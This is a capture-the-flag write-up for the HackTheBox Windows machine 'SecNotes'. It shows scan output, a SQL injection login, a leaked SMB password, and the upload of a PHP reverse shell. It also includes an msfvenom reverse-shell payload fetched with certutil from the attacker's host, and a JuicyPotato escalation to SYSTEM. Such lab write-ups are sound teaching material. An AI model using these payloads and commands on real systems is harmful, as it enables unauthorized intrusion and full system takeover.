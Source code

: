 ---
title: SecNotes
categories: [HackTheBox]
tags: [JuicyPotato, PrivEsc, SMB, SQLi, Windows]
img_path: /Vulnhub-Files/img/
image:
  path: SecNotes/Untitled.png
  alt: Windows Easy level Machine 📂 ...---



## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/SecNotes]
└─$ sudo nmap -sC -sV -p- -T5 -oN Nmap_Result.txt 10.10.10.97
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-05 12:07 IST
Nmap scan report for 10.10.10.97
Host is up (0.11s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Secure Notes - Login
|_Requested resource was login.php
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: HTB)
8808/tcp open  http         Microsoft IIS httpd 10.0
|_http-title: IIS Windows
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-01-05T06:40:46
|_  start_date: N/A
|_clock-skew: mean: 4s, deviation: 0s, median: 3s
```

## Web Enumeration ⤵️

I checked the port 80 and got a login site so I firstly signup and I found out that this site works works as note taking site →

![Untitled](SecNotes/Untitled%201.png)

After login I got this interface and tried different input and one of them is `xss` and it is vulnerable to it →

![Untitled](SecNotes/Untitled%202.png)

and I also tried `sql injection` payload as signup and logged in through it →

![Untitled](SecNotes/Untitled%203.png)

I got all the `sql` dump on site through this payload →

![Untitled](SecNotes/Untitled%204.png)

I got the credentials so lets login into the `smb` and see some shares →

```bash
tyler : 92g!mA8BGjOirkL%OG*&
```

I got these shares →

![Untitled](SecNotes/Untitled%205.png)

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/SecNotes]
└─$ smbclient //10.10.10.97/new-site -U 'tyler' 
Password for [WORKGROUP\tyler]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jan  5 12:51:25 2024
  ..                                  D        0  Fri Jan  5 12:51:25 2024
  iisstart.htm                        A      696  Thu Jun 21 20:56:03 2018
  iisstart.png                        A    98757  Thu Jun 21 20:56:03 2018

		7736063 blocks of size 4096. 3361181 blocks available
smb: \> put php_shell_windows.php 
putting file php_shell_windows.php as \php_shell_windows.php (25.9 kb/s) (average 20.6 kb/s)
smb: \>
```

I uploaded the `php` reverse shell →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/SecNotes]
└─$ rlwrap nc -lvnp 4444            
listening on [any] 4444 ...
connect to [10.10.16.31] from (UNKNOWN) [10.10.10.97] 53308
SOCKET: Shell has connected! PID: 5376
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\new-site>whoami
iis apppool\newsite

C:\inetpub\new-site>hostname
SECNOTES

C:\inetpub\new-site>
```

This connection get terminated after few seconds as that php reverse shell file get deleted so for getting a proper shell I created a payload in `exe` format and uploaded in `C:\Temp` and executed it and got the shell through that →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/SecNotes]
└─$ msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.16.31 lport=2222 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
```

I transfered this payload through `certutil` and you can also use `smb` to upload this payload in `C:\Temp` location →

```bash
C:\inetpub\new-site>mkdir C:\TEmp; cd C:\Temp
C:\TEmp>certutil -f -urlcache http://10.10.16.31/shell.exe shell.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

C:\TEmp>
C:\inetpub\new-site>cd C:\Temp

C:\TEmp>dir
 Volume in drive C has no label.
 Volume Serial Number is 1E7B-9B76

 Directory of C:\TEmp

01/04/2024  11:39 PM    <DIR>          .
01/04/2024  11:39 PM    <DIR>          ..
01/04/2024  11:39 PM             7,168 shell.exe
               1 File(s)          7,168 bytes
               2 Dir(s)  13,765,730,304 bytes free

C:\TEmp>shell.exe
```

I got the proper shell here and lets see the privileges →

```bash
C:\TEmp>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled

C:\TEmp>
```

I used `JuicyPotato` and got the shell through it , I uploaded the shell.bat file through `certutil` and created it through `msfvenom` port for 445 and LHOST as tun0 interface →

```bash
C:\TEmp>JuicyPotato.exe -t * -p shell.bat -l 4444
JuicyPotato.exe -t * -p shell.bat -l 4444
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 4444
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\TEmp>
```

and I got the response as `nt authority\system` .

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/SecNotes]
└─$ rlwrap nc -lvnp 445             
listening on [any] 445 ...
connect to [10.10.16.31] from (UNKNOWN) [10.10.10.97] 53949
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system

C:\WINDOWS\system32>hostname
hostname
SECNOTES

C:\WINDOWS\system32>cd C:\Users\Administrator
cd C:\Users\Administrator

C:\Users\Administrator>
C:\Users\Administrator>tree /f /a
tree /f /a
Folder PATH listing
Volume serial number is 1E7B-9B76
C:.
+---3D Objects
+---Contacts
+---Desktop
|       Microsoft Edge.lnk
|       root.txt
|       
+---Documents
+---Downloads
+---Favorites
|   |   Bing.url
|   |   
|   \---Links
+---Links
|       Desktop.lnk
|       Downloads.lnk
|       
+---Music
+---OneDrive
+---Pictures
|   +---Camera Roll
|   \---Saved Pictures
+---Saved Games
+---Searches
|       winrt--{S-1-5-21-1791094074-1363918840-4199337083-500}-.searchconnector-ms
|       
\---Videos

C:\Users\Administrator>type Desktop\root.txt
type Desktop\root.txt
99c1a34ca94afc1aada35347831a62b0

C:\Users\Administrator>
```

I am Administrator now !!